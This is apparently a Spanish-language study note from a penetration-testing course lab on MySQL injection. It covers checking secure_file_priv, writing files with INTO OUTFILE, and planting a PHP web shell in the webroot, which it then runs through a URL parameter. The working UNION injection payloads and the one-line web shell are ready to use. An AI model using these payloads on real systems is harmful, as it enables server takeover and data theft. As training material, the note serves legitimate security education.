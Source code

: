 # Writing Files

Cuando hablamos de editar arcchivos para el back-end server, se vuelve muy restringido en DBMSes modernas, desde que se pueden utilizar para escribir web shell sobre el servidor remoto, para haci conseguir ejecucion de codigo y consegir el control del servidor, es por eso que las DBMS modernas tienen deshabilitado el "file-write" por default ademas requiere ciertos privilegios. Antes de editar archivos, primero debemos asegurarnos de los privilegios y si la DMBS permite escribir archivos.

## Write Privileges

Para habilitar editar archivos en el back-end server usando MySQL, requerimos tres cosas:

1. Un usuario con los privilegios **"FILE"** habilitados
2. La variable **"secure_file_global"** no habilitada
3. Acceso de escritura a la ubicación en la que queremos escribir en el servidor back-end

Tenemos que nuestro usuario tiene los privilegios **FILE** necesario para editar archivos, ahora tenemos que asegurarnos si MySQL database cuenta con esos privilefios, para esto podemos usar **secure_file_priv**

## secure_file_priv

La variable **secure_file_priv** es usada para determinar desde donde leer/escribir archivos, un valor vacio nos permite leer archivos de todo el sistema de archivos. De lo contrario si se establece un directorio determinado, solo podremos leer desde la carpeta especificada por la variable. Por otro lado, **NULL** significa que no podemos leer/escribir archivos de ningun directorio. MariaDB tiene esta variable vacia por default, lo que nos permite leer/escribir en cualquier archivo si el usuario tiene el privilegio **FILE**. Sin embargo, MySQL usa **/var/lib/mysql-files** como la carpeta predeterminada. Esto significa que no es posible leer archivos a través de ninguna inyeccion MySQL con la configuracion preterminada. Peor aun, algunas configuraciones modernas tienen como valor predeterminado **NULL**, lo que significa que no podemos lee/escribir archivos en ningna parte del sistema.

vamos a ver como encontramos el valor de **secure_file_priv**, dentro de MySQL por lo cual usaremos la siguiente solicitud.

```
SHOW VARIABLES LIKE 'secure_file_priv';
```

Sin embargo, como estamos usando una inyección **UNION**, tenemos que obtener el valor usando una declaración **SELECT**. Esto no debería ser un problema, ya que todas las variables y la mayoría de las configuraciones se almacenan dentro de la base de datos **INFORMATION_SCHEMA**. Las variables globales de MySQL se almacenan en una tabla llamada **global_variables** y, según la documentación, esta tabla tiene dos columnas **variable_name** y **variable_value.**

Tenemos que seleccionar estas dos columnas de esa tabla en la base de datos **INFORMATION_SCHEMA**. Hay cientos de variables globales en una configuración MySQL y no queremos recuperarlas todas. Luego filtraremos los resultados para mostrar solo la variable **secure_file_priv**, usando la cláusula **WHERE** que aprendimos en una sección anterior.

La consulta SQL final es la siguiente:

```
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

De manera similar a otras consultas de inyección UNION, podemos obtener el resultado de la consulta anterior con la siguiente carga útil. Recuerde agregar dos columnas más, 1 y 4, como datos basura para tener un total de 4 columnas:

```
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![alt text](image/32.png)

Y el resultado muestra que el valor secure_file_priv está vacío, lo que significa que podemos leer/escribir archivos en cualquier ubicación.

## SELECT INTO OUTFILE

Ahora que hemos confirmado que nuestro usuario debe escribir archivos en el servidor back-end, intentemos hacerlo mediante la declaración **SELECT .. INTO OUTFILE**. La declaración **SELECT INTO OUTFILE** se puede utilizar para escribir datos de consultas de selección en archivos. Esto se suele utilizar para exportar datos de tablas.

Para utilizarla, podemos añadir **INTO OUTFILE '...'** después de nuestra consulta para exportar los resultados al archivo que especificamos. El siguiente ejemplo guarda la salida de la tabla de **users** en el archivo **/tmp/credentials**:

```
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

Si vamos al servidor back-end y cat el archivo, vemos el contenido de esa tabla: 

```
H4wker@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

También es posible directamente **SELECT** cadenas en archivos, lo que nos permite escribir archivos arbitrarios en el servidor back-end. 

```
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```
H4wker@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

Consejo: Las exportaciones de archivos avanzadas utilizan la función 'FROM_BASE64("base64_data")' para poder escribir archivos largos/avanzados, incluidos datos binarios. 

## Writing Files through SQL Injection

Intentemos escribir un archivo de texto en webroot y verificar si tenemos permisos de escritura. La siguiente consulta debe escribir **file written successfully!** hacia **/var/www/html/proof.txt** archivo, al que luego podremos acceder en la aplicación web: 

```
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Nota:** Para escribir un shell web, debemos conocer el directorio web base del servidor web (es decir, la raíz web). Una forma de encontrarlo es usar load_file para leer la configuración del servidor, como la configuración de Apache que se encuentra en **/etc/apache2/apache2.conf**, la configuración de Nginx en **/etc/nginx/nginx.conf**, o configuración de IIS en **%WinDir%\System32\Inetsrv\Config\ApplicationHost.config**, o podemos buscar en línea otras posibles ubicaciones de configuración. Además, podemos ejecutar un análisis difuso e intentar escribir archivos en diferentes raíces web posibles, utilizando [esta lista de palabras para Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) o [esta lista de palabras para Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt) . Finalmente, si nada de lo anterior funciona, podemos utilizar los errores del servidor que se nos muestran e intentar encontrar el directorio web de esa manera. 

La injeccion UNION seria la siguiente:

```
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

![alt text](image/33.png)

No vemos ningún error en la página, lo que indica que la consulta se realizó correctamente. Comprobando el archivo <font color="green">proof.txt</font> en webroot, vemos que efectivamente existe: 

![alt text](image/34.png)

Nota: Vemos la cadena que arrojamos junto con '1', '3' antes y '4' después. Esto se debe a que todo el resultado de la consulta 'UNION' se escribió en el archivo. Para que la salida sea más limpia, podemos usar "" en lugar de números. 

## Writing a Web Shell

Habiendo confirmado los permisos de escritura, podemos continuar y escribir un shell web PHP en la carpeta webroot. Podemos escribir el siguiente webshell PHP para poder ejecutar comandos directamente en el servidor back-end: 

```
<?php system($_REQUEST[0]); ?>
```

```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

![alt text](image/35.png)


Una vez más, no vemos ningún error, lo que significa que la escritura del archivo probablemente funcionó. Esto se puede verificar navegando hasta el <font color="green">/shell.php</font>  archivo y ejecutar comandos a través del <font color="green">0</font> parámetro, con <font color="green">?0=id</font> en nuestra URL: 

![alt text](image/37.png)

La salida del id El comando confirma que tenemos ejecución de código y que estamos ejecutando como www-data usuario. 

## Reto

Encuentra la bandera usando una webshell.

![alt text](image/38.png)